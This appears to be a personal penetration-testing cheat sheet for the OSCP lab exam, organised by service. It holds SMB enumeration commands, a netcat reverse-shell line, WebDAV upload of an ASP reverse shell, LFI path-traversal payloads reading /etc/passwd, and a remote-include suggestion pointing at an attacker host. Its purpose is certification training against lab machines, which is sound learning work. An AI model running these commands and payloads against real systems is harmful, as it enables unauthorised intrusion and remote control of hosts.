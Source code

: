 # OSCP Services and Things-To-Try

## Services

__SSH (22)__
* Fingerprint server/OS, SSH key
* Basic auth-bypass (user=Patrick pass=Patrick) => Privesc `$ sudo su` + `$ su root`

__HTTP (80|8080)__
* Curl for HTTP header

__Telnet (23)__
* Stuff

__SMTP (25)__
* Stuff

__SMB / NETBIOS / SMBD (135-139 - 445)__

SMB enumeration
```bash
$ nmblookup -A target
$ smbclient //MOUNT/share -I target -N
$ rpcclient -U "" target
$ enum4linux target        // enum info from Windows and Samba hosts 

# Find named pipes
`msfconsole> use auxiliary/scanner/smb/pipe_auditor`
```

Things to try:
* Accessing shared dirs: `smbclient \\\\10.11.1.75\\Users`
    * `smb:\> put src_file remote_file`
    * `smb:\> get remote_file`
    * Put nc.exe => reverse shell
    * Get password files => access via. ssh/ rdp
* MS17-010 Code Exec
    * `PsExec.exe`
    * `runas`
    * `nc.exe 10.11.0.42 443 -e cmd.exe`
    * Add new admin account: https://www.securenetworkinc.com/news/2017/9/7/a-guide-to-exploiting-ms17-010-with-metasploit

Exploits:
* [MS08-067] NetAPI module in Windows SMB
* [MS17_010] Eternal blue detection: `use auxiliary/scanner/smb/smb_ms17_010`
* [MS17-010 ALTERNATIVE METHOD]: Adding new admin account https://www.securenetworkinc.com/news/2017/9/7/a-guide-to-exploiting-ms17-010-with-metasploit

__SMBD / SAMBA (139)__
* SMBD/Sambda is a server to provide SMB service to clients
* Samba 2.2.x remote buffer overflow: https://www.exploit-db.com/exploits/7

__MSRPC (135)__
* Stuff

## Web

ColdFusion vulns
* https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers
* https://www.absolomb.com/2017-12-29-HackTheBox-Arctic-Writeup/
* ColdFusion LFI: http://hatriot.github.io/blog/2014/04/02/lfi-to-stager-payload-in-coldfusion/

WEBDAV vulns - using tools . 
https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_upload_asp  
http://carnal0wnage.attackresearch.com/2010/05/more-with-metasploit-and-webdav.html  
```bash
$ davtest -url 10.11..113                                 # test for webdav vulns
$ davtest -url http://10.11.1.13                          # upload file from local to remote dir (HTTP PUT)
          -uploadfile rshell.asp -uploadloc rshell.html
$ cadaver
dav:!> open 10.11.1.13                                    # open connection to URL
dav:!> move '/rshell.txt' to '/rshell.asp'                # move .txt -> .asp (now executable)
```

WEBDAV vulns - manual
```bash
$ curl -T '/path/to/local/file.txt' 'http://10.11.1.13/'                              # upload file to remote
$ curl -v -X MOVE -H 'Destination: http://10.11.1.13/[new]' 'http://10.11.1.13/[old]' # move .ext1 -> .ext2
```

Apache
* Log paths: https://wiki.apache.org/httpd/DistrosDefaultLayout

LFI / RFI
(LFI = HIGH CHANCE OF RFI, SO TRY TO INCLUDE HTTP://ATTACKER/RSHELL.PHP)
```
# Append NULL bytes (prevent .ext concat to the end by application)
http://example.com/index.php?page=../../../etc/passwd%00
http://example.com/index.php?page=../../../etc/passwd%en
http://example.com/index.php?page=../../../etc/passwd%00%en
```

PHP
* Check `phpinfo()`
* RFI: If reverse-shell doesn't work, include `<?php phpinfo();?>` to check for banned functions

## Privesc - LINUX

UDEV
* Guide: http://www.madirish.net/370
* Exploit Code: https://www.exploit-db.com/exploits/8478

## Privesc - WINDOWS

Accesschk.exe:
* http://www.fuzzysecurity.com/tutorials/16.html
```
accesschk.exe -uwdqs Users c:\ /accepteula
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```

Psexec.exe:
* https://pinkysplanet.net/escalating-privileges-in-windows-with-psexec-and-netcat/
* https://www.robvanderwoude.com/ntadmincommands.php#Cmd15

Net Use:
* https://www.robvanderwoude.com/ntadmincommands.php#Cmd15


## Reverse Shell Tips

Reverse shell cheatsheet: http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/

If reverse shell hangs / dies, try a different port.
* A firewall may be blocking / disconnecting you on the port.
* E.g. 443 doesn't work, try 80 or 8080 (see your Nmap results).


## Metasploit

Msfvenom commands:
* https://netsec.ws/?p=331




